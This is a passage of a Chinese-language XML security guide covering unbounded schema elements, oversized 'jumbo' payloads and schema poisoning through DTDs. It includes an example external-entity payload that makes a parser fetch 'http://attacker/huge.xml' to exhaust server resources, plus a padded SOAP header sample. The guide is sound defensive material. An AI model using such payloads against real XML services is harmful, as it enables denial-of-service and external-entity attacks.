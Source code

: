 ```xml
 </xs:element>
</xs:schema>
```

上面的模式包含一个名为 `operation` 的根元素，可以包含无限（`unbounded`）数量的购买元素。这是常见的发现，因为开发者通常不想限制最大出现次数。**使用无限出现的应用程序应测试当接收到极大数量的待处理元素时会发生什么。由于计算资源是有限的，应分析其后果，并最终应使用最大数量，而不是 `unbounded` 值。**

### 巨型有效载荷

**发送 1GB 的 XML 文档只需要服务器处理一秒钟，可能不值得作为攻击考虑。相反，攻击者会寻找一种方法，使生成这类攻击所用的 CPU 和流量最小化，同时与处理请求所用的服务器 CPU 或流量总量相比。**

#### 传统巨型有效载荷

**有两种主要方法可以使文档比正常情况大：**

**- 深度攻击：使用大量元素、元素名称和/或元素值。**

**- 宽度攻击：使用大量属性、属性名称和/或属性值。**

在大多数情况下，最终结果将是一个巨大的文档。以下是这种情况的简短示例：

```xml
<SOAPENV:ENVELOPE XMLNS:SOAPENV="HTTP://SCHEMAS.XMLSOAP.ORG/SOAP/ENVELOPE/"
                  XMLNS:EXT="HTTP://COM/IBM/WAS/WSSAMPLE/SEI/ECHO/B2B/EXTERNAL">
 <SOAPENV:HEADER LARGENAME1="LARGEVALUE"
                 LARGENAME2="LARGEVALUE2"
                 LARGENAME3="LARGEVALUE3" …>
 ...
```

#### "小型"巨型有效载荷

**下面的示例是一个非常小的文档，但处理此文档的结果可能类似于处理传统巨型有效载荷。**这种小型有效载荷的目的是允许攻击者快速发送多个文档，使应用程序消耗大部分或全部可用资源：

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
 <!ENTITY file SYSTEM "http://attacker/huge.xml" >
]>
<root>&file;</root>
```

### 模式投毒

**当攻击者能够引入对模式的修改时，可能会产生多种高风险后果。特别是，如果模式使用 [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp)（例如，文件检索、拒绝服务），这些后果的影响将更加危险。**攻击者可以在众多场景中利用这类漏洞，这取决于模式的位置。

#### 本地模式投毒

**本地模式投毒发生在模式在同一主机上可用的情况下，无论模式是否嵌入在同一 XML 文档中。**

##### 嵌入式模式

**最简单的模式投毒发生在模式在同一 XML 文档中定义的情况。**考虑以下由 W3C 提供的、不知不觉中存在漏洞的示例：

```xml
<?xml version="1.0"?>
<!DOCTYPE note [
 <!ELEMENT note (to,from,heading,body)>
 <!ELEMENT to (#PCDATA)>
 <!ELEMENT from (#PCDATA)>
 <!ELEMENT heading (#PCDATA)>
 <!ELEMENT body (#PCDATA)>
]>
<note>
 <to>Tove</to>
 <from>Jani</from>
 <heading>Reminder</heading>
 <body>Don't forget me this weekend</body>
```
